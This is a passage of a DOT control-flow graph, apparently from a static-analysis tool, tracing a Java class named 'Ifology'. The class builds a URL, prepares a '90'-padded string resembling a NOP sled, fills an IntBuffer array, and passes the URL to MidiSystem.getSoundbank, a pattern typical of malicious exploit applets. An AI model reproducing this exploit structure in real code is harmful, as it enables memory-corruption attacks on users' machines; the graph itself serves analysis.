    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r96"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r96";
    "load.r r96"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r352";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r352"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"909090H9HHHH0\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"909090H9HHHH0\"";
    "push \"909090H9HHHH0\""->"push \"H\"";
    "push \"H\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Ifology: java.nio.IntBuffer[] __v(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Ifology: java.nio.IntBuffer[] __v(java.lang.String,java.lang.String)>";
    "fieldput <Ifology: java.nio.IntBuffer[] mem>"
    "virtualinvoke <Ifology: java.nio.IntBuffer[] __v(java.lang.String,java.lang.String)>"->"fieldput <Ifology: java.nio.IntBuffer[] mem>";
    "fieldput <Ifology: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "load.r r0"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "iflt return"->"return";
}
